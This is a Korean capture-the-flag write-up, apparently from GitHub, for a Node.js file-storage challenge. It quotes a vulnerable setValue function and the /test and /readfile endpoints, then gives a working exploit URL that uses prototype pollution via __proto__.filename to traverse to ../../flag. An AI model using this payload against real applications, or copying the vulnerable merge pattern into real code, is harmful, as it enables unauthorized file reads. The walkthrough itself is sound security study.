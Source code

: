 <h1>1. 웹페이지 접속</h1>

![image](./image/filestorage1.png)

파일이름과 파일내용을 입력할 수 있는 공간과 send 버튼이 있다. 임의의 내용을 입력해서 send 해보면

 

다음과 같이 출력된다.

![image](./image/filestorage2.png)

 

파일 이름으로 abc 를 입력하였는데 파일 이름은 sha256 방식으로 암호화되어 출력된다. 

 

 

<h1>2. 소스코드 분석</h1>
이 웹사이트는 Node.js 로 작성되었으며 파일 이름이 출력되던 mkfile 엔드포인트 이외에도 /readfile, /test 엔드포인트도 존재한다. 

 

<h2>취약한 소스코드</h2>

```
app.get('/test',function(req,resp){
	let {func,filename,rename}=req.query;
	if(func==null){
		resp.send("this page hasn't been made yet"); 
	}else if(func=='rename'){
		setValue(file,filename,rename)
		resp.send('rename');
	}else if(func=='reset'){
		read={};
		resp.send("file reset");
	}
 
```

/test 에서 사용하는 setValue 함수에서 취약점이 발견되었다.

 

 

<h2>setValue 함수</h2>

```
function setValue(obj, key, value) {
  const keylist = key.split('.'); 
  const e = keylist.shift(); 
  if (keylist.length > 0) {
    if (!isObject(obj[e])) obj[e] = {}; 
    setValue(obj[e], keylist.join('.'), value);
  } else {
    obj[key] = value;
    return obj;
  }
}
```

 

이 함수는 대표적인 프로토타입 오염에 취약한 함수이다.

참고자료 - https://ajy1120.tistory.com/46


 

프로토타입 오염은 Node.js 에서 발생하는 취약점으로 프로토타입 기반 언어인 자바스크립트에서 발생하는 취약점이다.

 

 

<h1>3. 익스플로잇</h1>
<br>
/test의 setValue 함수를 호출하기 위해 다음의 URL 을 파라미터 값으로 전달하였다.
<br>

 

```
/test?func=rename&file=read&filename=__proto__.filename&rename=../../flag
```
그러면 setValue(read, __proto__.filename, ../../flag) 함수가 호출된다. 이 함수가 실행되면 read 객체의 프로토타입

 

의 filename 속성값을 임의의 값으로 지정할 수 있다. 그리고 func=reset 값을 전달하여 read 객체를 다시 초기화하면

 

read 객체의 filename 값이 임의의 값으로 오염되게 된다다.

 

filename 속성값을 오염시킨 이유는 다음의 코드를 이용하기 위해서이다.

```
app.get('/readfile',function(req,resp){ 
	let filename=file[req.query.filename];
	if(filename==null){
		fs.readFile(__dirname+'/storage/'+read['filename'],'UTF-8',function(err,data){
			resp.send(data); // response.send
		})
	}else{
		read[filename]=filename.replaceAll('.',''); 
		fs.readFile(__dirname+'/storage/'+read[filename],'UTF-8',function(err,data){
			if(err==null){
				resp.send(data);
			}else{
				resp.send('file is not existed');
			}
		})
	}

})
```

위의 코드를 보면 filename 변수에 GET 방식으로 받은 값을 저장하고 filename 값이 null 값이면 read 객체의 filename

 

속성값을 그대로 사용하여 파일을 불러오는데, setValue 함수를 실행하여 filename 속성값을 오염시켰기 때문에

 

/readfile 에 접근할 때 아무런 값도 전달하지 않는다면 read['filename'] 값을 그대로 가져오게되어 

 

/storage/../../flag 경로에 접근하여 파일을 불러오게 된다. 


![image](./image/filestorage3_1.png)
